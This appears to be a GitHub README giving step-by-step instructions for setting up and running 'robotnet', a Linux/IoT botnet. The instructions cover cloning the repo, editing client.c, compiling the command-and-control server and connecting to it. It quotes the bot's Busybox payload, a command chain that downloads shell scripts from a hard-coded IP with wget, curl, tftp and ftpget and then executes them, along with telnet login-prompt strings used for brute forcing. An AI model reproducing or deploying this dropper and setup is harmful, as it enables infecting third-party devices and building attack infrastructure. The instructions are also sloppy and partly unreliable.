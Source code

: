 # robotnet
This is a Ubuntu botnet for OS_linux and linux

GETTING THE BOTNET 
sudo apt-get install git (this will install git )
git clone https://github.com/robotikmaniac/robotnet







dir  (This should be under robotnet)
cd robotnet
PACKAGES SHOULD INCLUDE
CC7.py    <<   python
CLIENT.C  <<   C++
server.C  <<   C++






PREP FOR BOTNET
nano client.c
(((((
skip past the includes
skip past the mozzilas
make sure you see this

char* phone[] = {":", "ogin", "sername", "assword", "Linux", "9615-cdp", (char*)0};
char *Busybox_Payload = "cd /tmp || cd /var/run || cd /mnt || cd /root || cd /; wget http://94.177.230.28/bins.sh; curl -O 
http://94.177.230.2/bin.sh; /bin/busybox tftp 94.177.230.28 -c get tftp1.sh; chmod 777 bins.sh; sh bins.sh; tftp 94.177.230.28 -c get 
tftp -r tftp1.sh -g 94.177.230.28; chmod 777 tftp1.sh; sh tftp1.sh; ftpget -v -u anonymous -p anonymous -P 21 94.177.230.28 ftp1.sh

)))))))))))









(EDIT THE IP)
 LINE 224     ===   94.177.230.28:812  (change to)  {{  "your ip":23    }}
 
 MAKE SURE WHEN YOU EDIT THE IP'S CORRECT on one of the lines theres a IP thats looks LIKE 94.177.230.2
 (make sure to take off one of the numbers ) to the ip
 
 example (IP) 192.168.1.72
 if 94.177.230.28 make it look like 192.168.1.72     
 if the ip looks like 94.177.230.2   make it look like 192.168.1.72
 
 after you have done all of that
 
 
 
 
 
 
 
 
 
 
 
 
 (COMPILE THE BOTNET)
 THE PACKAGES YOU WILL NEED
 
 sudo apt-get install yum               
 (MIGHT UPDATE)
 
 sudo apt-get install python3           
 (JUST DO IT IT MIGHT HAVE A NEW VERSION)
 
 sudo apt-get install python-paramiko   
 (JUST DO IT IT MIGHT HAVE A NEW VERSION)
 
 sudo apt-get install nano              
 (JUST DO IT IT MIGHT HAVE A NEW VERSION
 
 sudo apt-get install screen            
 (MOST OF LINUX OS's SO NOT HAVE SCREEN INSTALLED)
 
 sudo apt-get install gcc               
 (JUST DO IT IT MIGHT HAVE A NEW VERSION)
 
 sudo apt-get install perl              
 (NEW VERSIONS OF PERL GET REALESED MONTHLY/WEEKLY)
 
 sudo apt-get install wget              
 (JUST DO IT IT MIGHT HAVE A NEW VERSION)
 
 sudo apt-get install zip               
 (BOLTH ARE NEEDED FOR THE DOWNLOAD)
 
 sudo apt-get install zip2             
 (BOLTH ARE NEEDED FOR THE DOWNLOAD)
 
 sudo apt-get install unzip            
 (JUST DO IT IT MIGHT HAVE A NEW VERSION)
 
 
 
 
 
 
 
 THOSE ARE ALL THE PACKAGES YOU NEED AFTER THAT I DO RECOMEND DOING
 sudo apt-get update     (DO THIS)
 sudo apt-get upgrade
 sudo apt-get update     (yes i typed this again on perpose)
 
 
 
 
 
 
 
 
 
 
 
 
 (RUNNING THE BOTNET)
 
 gcc server.c -o server -pthread
 ignore the warnings its just telling you that its going to port fowward using telnet-RAW
 
 
 python cc7.py cc7.py client.c (PUT SERVERS IP HERE)
 THIS WILL TAKE ABOUT 10 mins to install
 
 
 
(PORT FOWWARDING THE BOTNET)
THIS MAY NOT WORK IF USING A PRIVATE IP BUT IF YOU USED A EXTERNAL IP THIS WILL WORK FINE

screen ./server 23 1 (PORT 1-9999)
IF IT SAYS OTHER SYSTEM IS USING THE IP DONT WORRY IT WILL STILL WORK
IF IT HAS A BLACK SCREEN THE BOTNET IS PORT FOWWARDING









(CONNECT TO THE BOTNET)
GO INTO PUTTY then type your (IP OF CHOICE)
SELECT A RAW CONNECTON TYPE 
THEN TYPE THE PORT YOU USED (1-9999)
if you see something that sese
robotnet (THEN YOU HAVE CONNECTED TO YOUR BOTNET)
GO BACK TO YOUR SESSION 
PRESS "CTRL C"
then add some acounts 
USERNAME MUST BE >>>root<<< NO CAPS
echo root (PASSWORD OF CHOICE) >>login.txt
(AFTER THAT YOU HAVE JUST ADDED A ACOUNT)
PORT FOWWORD YOUR BOTNET AGAIN 
THEN use
username root
password of your choice
you should be greeted to a menu with the rules of the server 










(INFO ABOUT THE BOTNET)
SCANNERS MUST BE ADDED BY YOURSELF
SERVALENCE AND PRIVACY ALSO MUST BE ADDED BY YOURSELF
I RECOMEND USING LONG PROTECTIVE PASSWORDS
